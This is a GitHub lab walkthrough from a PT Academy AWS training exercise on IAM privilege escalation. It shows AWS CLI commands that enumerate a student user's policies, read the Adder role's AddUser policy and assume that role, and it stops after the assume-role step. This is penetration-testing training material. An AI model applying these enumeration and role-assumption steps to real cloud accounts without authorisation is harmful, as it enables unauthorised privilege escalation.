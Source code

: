 ### Dangerous Policy Combination I

A pre requisite is to configure the profile generated by PT Academy

First, list attached policies for user `student` `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222631607-91c607e2-d4f8-44d0-b2a0-69bc1ae83bf7.png)

If a user is tried to be created, a denied message will be received ` aws iam create-user --user-name jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222631842-3b8ccab1-7e4b-4419-b1d9-d56a74e7a51b.png)

What can be done is to get information about the user’s inline policies and enumerate the attached policies.
```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230303041857712300000002 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222632349-d106b9f1-db58-4a55-8206-2d3f93e537c8.png)

Check policies attached to Adder role and check the role-policy document for the policy `AddUser`.

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222633923-83a1ecab-e304-4a5c-8b57-d620720a7aba.png)

Assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::566111886431:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222635748-f8cdd417-532f-4b8d-ad85-03a7d19b56dd.png)


